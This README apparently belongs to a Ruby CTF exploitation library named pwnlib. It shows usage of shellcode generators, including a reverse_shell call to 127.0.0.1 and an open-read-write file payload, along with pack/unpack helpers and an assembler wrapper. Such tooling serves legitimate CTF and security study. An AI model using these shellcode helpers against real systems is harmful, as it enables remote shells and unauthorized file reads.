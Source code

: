 # pwnlib
Some stuff for CTF.

## My feature


### Shellcode module

You can easily use some shellcode

```
include Shellcode
shellcode(:x86)
orw(:x64, '/the/path/you/wanna/read') # open-read-write(stdout)
reverse_shell(:x86, '127.0.0.1', 25252)
```

### pack/unpack

Supported pack, unpack.(only little endian)

```
p32(0xdeadbeef)
p32(0xdeadbeef, 0xbeefdead)
u64("AAAAAAAA")
```

### Use constants

Some important constants was defined such as NULL, STDIN_FILENO, O\_RDONLY.

### Sasm

Sasm can easily assemble.

```
require 'sasm'

sasm = Sasm.new(:x86)
code = <<EOS
mov al,1
xor ebx, ebx
int 0x80
EOS
sasm.as(code)
```
